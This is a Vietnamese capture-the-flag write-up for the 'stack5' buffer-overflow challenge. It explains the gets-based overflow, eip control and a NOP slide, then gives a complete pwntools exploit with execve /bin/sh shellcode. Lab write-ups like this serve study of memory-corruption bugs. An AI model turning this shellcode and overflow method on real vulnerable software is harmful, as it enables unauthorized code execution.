


# stack5

## Description

Chạy thử chương trình, nhập input vào thì ko có gì diễn ra. Mình đá thử qua hàm main thì thấy nó khá là ngắn.

```ASM (intel syntax)
   0x080483c4 <+0>:     push   ebp
   0x080483c5 <+1>:     mov    ebp,esp
   0x080483c7 <+3>:     and    esp,0xfffffff0
   0x080483ca <+6>:     sub    esp,0x50
   0x080483cd <+9>:     lea    eax,[esp+0x10]
   0x080483d1 <+13>:    mov    DWORD PTR [esp],eax
   0x080483d4 <+16>:    call   0x80482e8 <gets@plt>
   0x080483d9 <+21>:    leave  
   0x080483da <+22>:    ret
```

mình đoán bài này sẽ phải chèn shellcode vào chương trình. Dùng vmmap check lại xem phần vùng mình ghi dữ liêu có quyền chạy code hay không.



ta thấy phân vùng stack có quyền x. Dùng shellcraft để tạo shellcode. Tiếp theo là tìm padding, dùng cyclic và pwndbg để tìm ra giống những bài trước. Padding 76 bytes. Bây giờ ta cần phải control eip. Khi chúng ta kiểm soát eip, chúng ta cần hướng nó đến ngăn xếp nơi chúng ta có thể đặt mã của riêng mình. Đỉnh của ngăn xếp được trỏ tới bởi SP (hoặc con trỏ ngăn xếp) được gọi là esp trong các máy 32-bit. Đối với mình, esp được đặt tại `0xffffceec`(ASLR off) và bạn có thể kiểm tra vị trí của esp trong gdb. Nếu ta muốn jump đến shellcode của mình, ta cần jump đến giữa ngăn xếp (thay vì trên cùng nơi SP trỏ đến), vì vậy ta thường thêm một phần bù vào vị trí esp trong phần mã khai thác . Mình sử dụng offset là `20*16`. Có một lệnh trong hợp ngữ được là NOP, là 0x90 trong hệ thập lục phân, và NOP là bộ chứa khoảng trắng chuyển eip đến không gian tiếp theo trong bộ nhớ. Nếu chúng ta tạo một "bãi đáp" NOP khổng lồ và hướng eip về phía giữa ngăn xếp, tỷ lệ eip sẽ hạ cánh trên NOP của chúng ta và các NOP sẽ chuyển eip xuống để cuối vào shellcode của chúng ta. Đây thường được gọi là NOP slide, bởi vì eip sẽ hạ cánh trong các NOP và trượt xuống shellcode. 


## Solution

```py
from pwn import *

elf = context.binary = ELF("stack5")

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)


io = start()

padding = cyclic(cyclic_find('taaa'))

eip = p32(0xffffceec+21*16)

nop_slide = "\x90"*400

shellcode = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

io.sendline(payload)

io.interactive()
```





